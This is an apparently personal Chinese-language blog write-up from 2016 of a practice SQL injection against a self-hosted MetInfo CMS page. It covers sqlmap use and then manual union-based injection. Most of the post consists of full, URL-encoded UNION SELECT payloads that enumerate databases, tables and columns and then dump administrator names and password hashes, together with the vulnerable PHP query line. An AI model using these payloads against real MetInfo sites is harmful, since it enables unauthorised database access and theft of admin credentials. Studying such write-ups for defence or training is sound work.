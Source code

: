 ```yaml
---
title: 记一次曲折的注入
tags:
  - SQL注入
  - Webshell
  - 服务器
id: 84
categories:
  - SQL注入
date: 2016-07-28 10:31:52
---
```

这两天自己搭了一个Metinfo的站点练手，从网上找了个注入点，手工测试了一下明显的有注入点的存在，先扔到SQLMAP里跑跑看~~

<!--more-->

### 曲折才刚刚开始

[参考链接](http://mp.weixin.qq.com/s?__biz=MzIxNTIzMzM1Ng==&amp;mid=2651101014&amp;idx=1&amp;sn=15e52b03d594c7e848aef5b9e710a19c&amp;scene=24&amp;srcid=0716THfw2YH0oxgZcJ9Uc84M#rd)

`/about/show.php?lang=cn&amp;id=22`

这两天自己搭了一个Metinfo的站点练手，从网上找了个注入点，手工测试了一下明显的有注入点的存在，先扔到SQLMAP里跑跑看~~

![image](http://blog.blbana.cc/img/Metinfo/1.jpg)

成功跑出来了我服务器上的所有数据库 ~ 可以的 大兄弟

接着来跑跑表和字段吧~~

![image](http://blog.blbana.cc/img/Metinfo/2.jpg)

接着又跑出来了所有的表和met_admin_column表中的所有字段，看来马上就成功啦 哈哈
> 其实我们在使用工具的时候根据工具中回显的情况基本就可判断出，SQLMAP使用的是什么payload以及注入的具体方式，比如在我这次查询的过程中，可以看到不论查询的是数据库还是表，都是一个一个进行查询的，就可以判断出来payload中使用了LIMIT这样的查询方式，限定了每次查询的个数。要是出现一个一个字符出来的情况，可以判断出，查询数据库的版本可能较低，因为通常现在的数据库都是有元数据表的，可以直接进行查询，一个字符一个字符出现，说明他利用ACSII码在进行比对比对成功以后回显字符。
但是继续用SQLMAP跑字段中数据的时候出现了错误，无法dump字段中的数据，曲折就此开始......

* * *

### 开启手工大法

既然工具无法顺利的跑出数据，可以尝试使用手工进行注入

![image](http://blog.blbana.cc/img/Metinfo/3.jpg)

这是一个正常的页面

#### 爆字段数

首先来测试一下字段数有多少，通常我们使用order by语句进行查询，尝试多次order by n ，n值无论如何测试，页面回显都是正常的，说明这种测试方法行不通

![image](http://blog.blbana.cc/img/Metinfo/4.jpg)

换着使用union语句去查询当前表的字段数，利用：

`UNION ALL SELECT null`

`UNION ALL SELECT null,null`

`UNION ALL SELECT null,null,null`

方式递归查询字段数，直到返回正常的页面为止，当我查询到27个字段时为正常，第28个报错时，可以判断出共有27个字段数。

![image](http://blog.blbana.cc/img/Metinfo/5.jpg)

成功爆出了字段数，继续下一步

#### 爆出数据库

先使用联合查询尝试爆出显位

`UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27`

页面回显404，出现了错误 （_通过查看源代码可以知道，只要SQL语句查询不正确，就会返回404_）

修改payload，将整个payload进行URL编码

`%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2C15%2C16%2C17%2C18%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27%23`

此时页面回显正常，说明我们语句构造成功了

![image](http://blog.blbana.cc/img/Metinfo/7.jpg)

但是回显的页面说我们权限不够，先不管他继续尝试注入看是否能够成功。

先构造出查询数据库的查询语句，如下所示：

`%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29`

`SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA`

以上两种语句都可以查询元数据表中的各个数据库名字

我们将查询语句依次尝试放入各个字段的位置里进行测试，发现除了21号位置以外，其他不管放在什么位置都会弹出窗口显示权限不足。

**其他位置**

![image](http://blog.blbana.cc/img/Metinfo/8.jpg)

![image](http://blog.blbana.cc/img/Metinfo/9.jpg)

**21号字段**

![image](http://blog.blbana.cc/img/Metinfo/10.jpg)

此时我们可以看到，当我们把查询语句放在21号位置上的时候页面返回正常，并且成功的爆出了显位是14号位置，仿佛看见了希望呀，感动~~~

直接把查询语句放在14号位置，21号位置不放时，又出现了错误。。。我。。尼 淡定 。。。想了想看来得有个语句把21号位置占住了，不然有了显位也没用，没办法爆出数据库。

`/about/show.php?lang=cn&amp;id=-1411%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2CCONCAT_WS(0x203a20,USER(),DATABASE(),VERSION())%2C15%2C16%2C17%2C18%2C19%2C20%2C%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29%2C22%2C23%2C24%2C25%2C26%2C27%23`

![image](http://blog.blbana.cc/img/Metinfo/11.jpg)

这次再次尝试了新的payload，看到结果感动的不要不要的，数据库爆出来了 让我哭一会 （_看起来很容易的样子，我弄的时候刚开始没想到这，各种挠头啊啊啊，还是突然想到这么搞得..._）

爆出了数据库剩下的就简单了

#### 爆出表

`/about/show.php?lang=cn&amp;id=-1411%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C(SELECT+GROUP_CONCAT(table_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA=0x6d6574)%2C15%2C16%2C17%2C18%2C19%2C20%2C%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29%2C22%2C23%2C24%2C25%2C26%2C27%23`

![image](http://blog.blbana.cc/img/Metinfo/12.jpg)

哈哈 ~ fighting

#### 爆字段

`/about/show.php?lang=cn&amp;id=-1411%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C(SELECT+GROUP_CONCAT(column_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME=0x6d65745f61646d696e5f7461626c65)%2C15%2C16%2C17%2C18%2C19%2C20%2C%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29%2C22%2C23%2C24%2C25%2C26%2C27%23`

![image](http://blog.blbana.cc/img/Metinfo/13.jpg)

#### 爆数据

`/about/show.php?lang=cn&amp;id=-1411%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C(SELECT+GROUP_CONCAT(admin_pass,admin_name+SEPARATOR+0x3c62723e)+FROM+met.met_admin_table)%2C15%2C16%2C17%2C18%2C19%2C20%2C%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29%2C22%2C23%2C24%2C25%2C26%2C27%23`

![image](http://blog.blbana.cc/img/Metinfo/14.jpg)

成功

### 总结

其实这个注入并不难，从它的代码上看到，没有任何的过滤措施，注入点就是一个基于布尔型的盲注，只要能够构造出来正确的查询语句，查询起来并不困难。这个注入点的难点其实就在于，你必须在占住21号位置的前提下利用14号位置进行查询，再者就是构造的语句必须经过URL编码，否则会报错。

`$show = $db-&gt;get_one("SELECT * FROM $met_column WHERE id=$id and module=1");`

这个是注入点的代码，发现其实很简答。
> 原文链接上给出的是基于时间型的盲注，可能是因为他们防护措施做的比较好，无法回显数据出来，我是直接在服务器上搭好当练习使用的，没有太多的防护措施，这个时候就可以巧妙地利用SQL语句中sleep()函数进行注入，这样即便没有回显，我们也可以拿到数据库等信息

* * *

通过这次练习，真的说明了渗透靠的是耐心，这个漏洞使用各种姿势去构造语句，一直没办法成功，这也说明了实战经验还是太少了，但是其实只要明白了整个注入的原理，根据返回的数据进行payload的修改，肯定能够构造出正确的语句，**注入的重点在于语句的构造，这也需要我们对SQL语句的熟练，以及对于常用数据库特性有着不错的理解，因此学好SQL语句和Mysql，Mssql，Oracle等常用的数据库都是必须的**